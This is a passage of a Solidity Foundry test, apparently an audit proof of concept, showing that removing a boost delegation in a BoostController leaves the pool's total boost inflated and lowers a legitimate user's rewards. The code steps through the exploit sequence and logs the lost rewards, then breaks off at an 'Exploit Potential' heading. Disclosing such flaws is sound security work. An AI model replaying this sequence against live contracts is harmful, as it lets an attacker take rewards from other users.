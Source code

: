 ```solidity 
        console.log("Delegation expiry:", expiry);
​
        // Step 3: Receiver updates boost - this sets pool totals
        vm.prank(receiver);
        boostController.updateUserBoost(receiver, pool);
​
        // Check pool state after boost update
        (uint256 poolTotalBoost, uint256 workingSupply,,) = boostController.getPoolBoost(pool);
        console.log("\nStep 3: Pool State After Boost Update");
        console.log("Pool total boost:", poolTotalBoost);
        console.log("Pool working supply:", workingSupply);
        console.log("Original delegation amount:", delegationAmount);
​
        // Add a legitimate user to show reward impact
        address legitUser = address(0x4);
        raacToken.mint(legitUser, 1000e18);
        raacToken.manageWhitelist(legitUser, true);
        
        vm.startPrank(legitUser);
        raacToken.approve(address(veToken), type(uint256).max);
        veToken.lock(1000e18, 365 days);
        boostController.updateUserBoost(legitUser, pool);
        vm.stopPrank();
​
        (uint256 legitUserBoost,,,) = boostController.getUserBoost(legitUser, pool);
        console.log("\nLegitimate User's Boost:", legitUserBoost);
​
        // Calculate rewards before delegation removal
        uint256 dailyRewards = 1000e18; // 1000 tokens per day
        uint256 legitUserRewardsBefore = (legitUserBoost * dailyRewards) / (poolTotalBoost + legitUserBoost);
        console.log("Legitimate User's Daily Rewards Before:", legitUserRewardsBefore / 1e18);
​
        // Step 4: Move past delegation expiry and remove delegation
        vm.warp(block.timestamp + 31 days);
        vm.prank(receiver);
        boostController.removeBoostDelegation(delegator);
​
        // Get final pool state
        (uint256 postTotalBoost, uint256 postWorkingSupply,,) = boostController.getPoolBoost(pool);
        console.log("\nStep 5: Pool State After Removal");
        console.log("Pool total boost:", postTotalBoost);
        console.log("Pool working supply:", postWorkingSupply);
​
        // Calculate rewards after delegation removal
        // Note: Pool boost remains inflated, affecting reward calculations
        uint256 legitUserRewardsAfter = (legitUserBoost * dailyRewards) / (postTotalBoost + legitUserBoost);
        
        console.log("\nEconomic Impact:");
        console.log("Expected Pool Total Boost: 0");
        console.log("Actual Pool Total Boost:", postTotalBoost);
        console.log("Legitimate User's Daily Rewards Before:", legitUserRewardsBefore / 1e18);
        console.log("Legitimate User's Daily Rewards After:", legitUserRewardsAfter / 1e18);
        console.log("Lost Rewards:", (legitUserRewardsBefore - legitUserRewardsAfter) / 1e18);
        
        // Calculate percentage of rewards lost
        uint256 rewardLossPercent = ((legitUserRewardsBefore - legitUserRewardsAfter) * 100) / legitUserRewardsBefore;
        console.log("Percentage of Rewards Lost:", rewardLossPercent, "%");
​
        // Show how this could be exploited
        console.log("\nExploit Potential:");
```